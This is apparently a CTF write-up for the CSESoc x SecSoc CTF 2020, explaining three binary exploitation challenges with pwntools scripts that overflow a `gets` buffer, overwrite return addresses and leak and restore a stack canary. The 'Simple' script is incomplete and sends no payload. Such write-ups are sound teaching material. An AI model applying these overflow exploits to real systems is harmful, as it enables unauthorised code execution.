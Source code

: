 # CSESoc x SecSoc CTF 2020

Despite entering as a team of 4, the CTF was just completed by myself and my good friend [featherbear](!https://featherbear.cc/)! We managed to claim first place, being ahead of second place by 20 points.

## Binary
These challenges were done by examining the disassembly using Binary Ninja.

### Simple
_Key observations:_
* `gets` is used - possible overflow vulnerability
* to take the winning branch, the value at [ebp-0xc] must equal 0x37333331
* buffer starts being written at [ebp-0x20]

_Overview:_
* pad the payload to allow 0x37333331 to be written at [ebp-0xc]

_Code:_
``` python
from pwn import *

p = remote('pwn.ctf.unswsecurity.com', 7004)

p.interactive()
```

### Exit 1337
_Key observations:_
* 1337%256 = 57 -> `exit` must be given 57 as its argument
* `gets` is used in `vuln` - possible overflow vulnerability
* buffer starts being written at [ebp-0x26]

_Overview:_
* pad the payload to until the return address location at [ebp+4]
* overwrite the return address with the address of where `exit` is called
* append the required value afterwards to set is as the argument

_Code:_
```python
from pwn import *

p = remote('pwn.ctf.unswsecurity.com', 7006)

payload = b''
# pad until the return address
payload += b'A' * (0x26+0x4)
# overwrite return address with address when
#   exit is called
payload += p32(0x8049219)
# set the required argument value
payload += p32(57)

p.sendline(payload)

p.interactive()
```

### Slightly Simple
_Key observations:_
* `gets` is used in `lol` - possible overflow vulnerability
* buffer starts being written at [ebp-0x20]
* canary check occurs with a value at [ebp-0xc]
* canary value is printed out
* `win` function is provided

_Overview:_
* obtain the given canary value
* pad the payload to until the canary location at [ebp-0xc]
* rewrite the canary
* pad the rest of the payload
* overwrite the return address with the win function

_Code:_
```python
from pwn import *

p = remote('pwn.ctf.unswsecurity.com', 7005)

# obtain the canary value
p.recvuntil('hi\n')
canary = p.recvuntil('\n', drop=True)
canary = b'0x' + canary
canary = int(canary, 16)

payload = b''
# pad until the canary
payload += b'A' * (0x20-0xC)
# overwrite the canary
payload += p32(canary)
# pad till the return address
payload += b'A' * 0xC
# overwrite return address
payload += p32(0x80491c6)

p.sendline(payload)

p.interactive()
```